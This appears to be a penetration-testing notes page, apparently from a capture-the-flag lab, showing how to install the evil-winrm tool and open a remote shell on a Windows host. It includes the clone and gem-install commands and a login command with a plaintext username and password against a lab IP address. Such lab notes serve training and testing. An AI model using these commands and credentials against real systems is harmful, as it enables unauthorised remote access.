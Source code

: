 ```yaml
---
description: Getting a shell from a Windows machine.
---
```


# evil-winrm

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

```text
git clone https://github.com/Hackplayers/evil-winrm
```

```text
cd evil-winrm

for i in $(cat Gemfile | tail -4 | cut -d ' ' -f 2 | tr -d "'"); do gem install $i; done; echo -e "\n\n\nDONE"
```

With the right credentials, run the following to get a shell\(**putting password inside quotes because of special characters**\):

```text
ruby evil-rm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

Full output:

![evil-winrm shell](../.gitbook/assets/evilwinrm.png)



